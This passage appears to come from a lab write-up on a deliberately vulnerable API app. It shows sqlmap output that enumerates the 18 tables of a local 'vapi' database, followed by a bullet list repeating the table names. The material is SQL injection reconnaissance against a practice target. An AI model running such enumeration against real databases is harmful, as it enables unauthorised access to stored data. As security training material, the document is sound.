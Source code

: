 ```
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.6
[14:15:39] [INFO] fetching tables for database: 'vapi'
Database: vapi
[18 tables]
+------------------------+
| a_p_i1_users           |
| a_p_i2_users           |
| a_p_i3_comments        |
| a_p_i3_users           |
| a_p_i4_users           |
| a_p_i5_users           |
| a_p_i6_users           |
| a_p_i7_users           |
| a_p_i8_users           |
| a_p_i9_users           |
| failed_jobs            |
| flags                  |
| justweaktokens         |
| migrations             |
| password_resets        |
| personal_access_tokens |
| stickynotes            |
| users                  |
+------------------------+

[14:15:39] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 1 times
[14:15:39] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 14:15:39 /2024-06-30/
```
- Observe that the vapi tables has 18 tables:
	- a_p_i1_users
	- a_p_i2_users
	- a_p_i3_comments
	- a_p_i3_users
	- a_p_i4_users
	- a_p_i5_users
	- a_p_i6_users
	- a_p_i7_users
	- a_p_i8_users
	- a_p_i9_users
	- failed_jobs
	- flags
	- justweaktokens
	- migrations
	- password_resets
	- personal_access_tokens
	- stickynotes
	- users
